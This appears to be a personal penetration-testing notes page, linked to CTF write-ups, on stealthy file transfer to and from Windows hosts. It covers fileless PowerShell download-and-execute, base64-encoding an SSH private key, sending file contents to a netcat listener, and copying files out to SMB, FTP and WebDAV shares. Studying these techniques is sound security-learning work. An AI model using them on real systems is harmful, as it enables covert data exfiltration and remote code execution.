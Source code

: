 # Windows File Transfer

## Overview

For transferring files to/from Windows machines.

## Key Concepts

To avoid detection, it's recommended to try to use Windows-native tools to transfer files as much as possible.

## Downloading

### Powershell

#### Method 1: Base64 Encoding

> [!warning] While this method is convenient, it's not always possible to use. Windows Command Line utility (cmd.exe) has a maximum string length of 8,191 characters. Also, a web shell may error if you attempt to send extremely large strings. 

**Step 1:** Check the MD5 hash of the contents.
```bash
md5sum id_rsa
```

**Step 2:** Encode contents to base64 and copy it to clipboard.
```bash
cat id_rsa | base64 -w 0; echo
```

**Step 3:** On the Windows machine, decode the contents in your clipboard to a file.
![[powershell#^decode-base64-to-file]]

**Step 4:** Confirm the MD5 hash matches
![[powershell#^get-file-md5-hash]]

#### Method 2:  DownloadFile

Download a file to a specified location.
![[powershell#^downloadfile-method]]

#### Method 3:  DownloadString - Fileless

Download and execute a remote file in memory - filelessly!
![[powershell#^downloadstring-method-fileless]]

#### Method 4: Invoke-WebRequest

> [!warning]  `Invoke-WebRequest` is noticeably slower at downloading files than `(New-Object Net.WebClient).DownloadFile`

Download a file to a specified location.
![[powershell#^outfile-invoke-webrequest]]

#### #### Method 5: WinRM

**Step 1:** Test the WinRM connection to the Windows machine
![[powershell#^test-winrm-connection]]

**Step 2:** Create a new session
![[powershell#^new-pssession]]

**Step 3:** Copy the file from the remote Windows machine to the local Windows machine.
![[powershell#^from-transfer-winrm]]

### SMB

#### Method 1: impacket-smbserver

**Step 1:** Create an SMB server on the Linux machine
![[impacket-smbserver#^create-authenticated-smb-server]]

**Step 2:** Mount the SMB server
```powershell
net use n: \\192.168.220.133\share /user:test test
```

**Step 3:** Copy the file from the share to the Windows machine
```powershell
copy n:\<file>
```

---
### FTP

#### Method 1: pyftpdlib

**Step 1:** Create an FTP server with Python on the Linux machine
![[python#^create-ftp-server]]

**Step 2:** Download the files to the Windows machine
![[powershell#^downloadfile-method]]


## Uploading

### Powershell

#### Method 1: Base64 Encoding + Copying

**Step 1:** Check the MD5 hash of the contents.
![[powershell#^decode-base64-to-file]]

**Step 2:** Encode contents to base64 and copy it to clipboard.
![[powershell#^encode-file-contents-to-base64]]

**Step 3:** On the Linux machine, decode the contents in your clipboard to a file.
```bash
echo "base64 content" | base64 -d > hosts
```

**Step 4:** Confirm the MD5 hash matches.
```bash
md5sum id_rsa
```

#### Method 2: Base64 Encoding + Uploading

**Step 1:** Encode the file content to Base64 and save it to a variable.
![[powershell#^b64-file-content-variable]]

**Step 2:** Open a netcat listener on the Linux machine.
![[netcat#^open-listener]]

**Step 3:** Send the Base64 encoded file contents to the listener
![[powershell#^send-b64-post]]

#### Method 3: WinRM

**Step 1:** Test the WinRM connection to the Windows machine
![[powershell#^test-winrm-connection]]

**Step 2:** Create a new session
![[powershell#^new-pssession]]

**Step 3:** Copy the file from local Windows machine to remote Windows machine.
![[powershell#^to-transfer-winrm]]


### FTP

#### Method 1: pyftpdlib

**Step 1:** Create an FTP server with write permissions on the Linux machine.
![[python#^write-create-ftp-server]]

**Step 2:** Upload a file from the Windows machine.
![[powershell#^uploadfile-method]]

### HTTP

#### Method 1: uploadserver

Set up a webserver with upload page
![[python#^uploadserver]]

#### Method 2: wsgidav

**Step 1:** Create a WebDav share on the Linux machine
![[python#^wsgidav-create-share]]

**Step 2:** Connect to the share on the Windows machine
```powershell
dir \\192.168.49.128\DavWWWRoot
```

**Step 3:** Upload files from the Windows machine
```powershell
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\www\
```





## Practical Examples

Real-world scenarios where I've used this

## Gotchas & Troubleshooting

- Common issues I've encountered
- Things that break this technique
- Environment-specific considerations

## Related Techniques

- [[Similar-Technique]] - How they differ
- [[Follow-up-Technique]] - What comes next

## CTF Examples

```dataview
TABLE file.name as "Box", choice(contains(file.tags, "easy"), "🟢", choice(contains(file.tags, "medium"), "🟡", "🔴")) as "Diff"
FROM "06-CTF-Writeups" AND #windows-file-transfer
SORT file.ctime DESC
LIMIT 5
```

## Learning Resources

- 

#windows-file-transfer #technique